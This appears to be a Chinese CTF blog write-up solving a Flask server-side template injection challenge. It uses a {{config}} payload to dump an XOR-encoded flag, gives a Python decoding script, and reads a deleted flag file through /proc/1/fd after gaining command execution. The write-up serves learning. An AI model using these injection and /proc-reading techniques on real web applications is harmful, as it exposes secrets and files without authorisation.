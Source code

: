 # [pasecactf_2019]flask_ssti proc ssti config

其实这个很简单

 [Linux的/proc/self/学习-CSDN博客](https://blog.csdn.net/cjdgg/article/details/119860355?spm=1001.2014.3001.5502) 

首先ssti直接fenjing一把锁了



<img src="https://i-blog.csdnimg.cn/blog_migrate/e57942fc8e7c820c726239a0aceaf47c.png" alt="" style="max-height:304px; box-sizing:content-box;" />


这里被加密后 存储在 config中了 然后我们去config中查看即可

```handlebars
{{config}}
```

可以获取到flag的值

```cobol
-M7\x10w@d94\x02!`-\x0eL\x0c;\x07(DKO\r\x17!2R4\x02\rO\x0bsT#-\x1c`@Z\x1dG
```

然后就可以写代码解密

```cobol
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))
 
flag = "-M7\x10w@d94\x02!`-\x0eL\x0c;\x07(DKO\r\x17!2R4\x02\rO\x0bsT#-\x1c`@Z\x1dG"
 
flag = encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
 
print(flag)
```

因为都是异或异或的异或就是 原本 所以不需要修改

就可以输出flag

## proc

还有另一个方法 存储在 proc中

首先我们可以执行命令了

查看一下进程 ps



<img src="https://i-blog.csdnimg.cn/blog_migrate/c01447fb66f0f45dc62aabd7c82c7274.png" alt="" style="max-height:304px; box-sizing:content-box;" />


发现app的进程在pid为1

我们去查看

```cobol
ls /proc/1/fd
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/a3037ef9b7d13aae4b729ede5c198d5f.png" alt="" style="max-height:543px; box-sizing:content-box;" />


这里其实没有这么多 因为我靶场没有关 原本只有 1-5 所以我们开始访问 可以在3 获取到flag



<img src="https://i-blog.csdnimg.cn/blog_migrate/05d272f84c099c7596c0b4363f3d1a2b.png" alt="" style="max-height:748px; box-sizing:content-box;" />


这里的原理

```cobol
fd是一个目录，里面包含着当前进程打开的每一个文件的描述符，然后虽然他把flag删掉了，但进程并没有关闭它，所以目录下 还是会有这个文件的文件描述符，通过这个文件描述符我们即可以得到被删除的文件的内容
```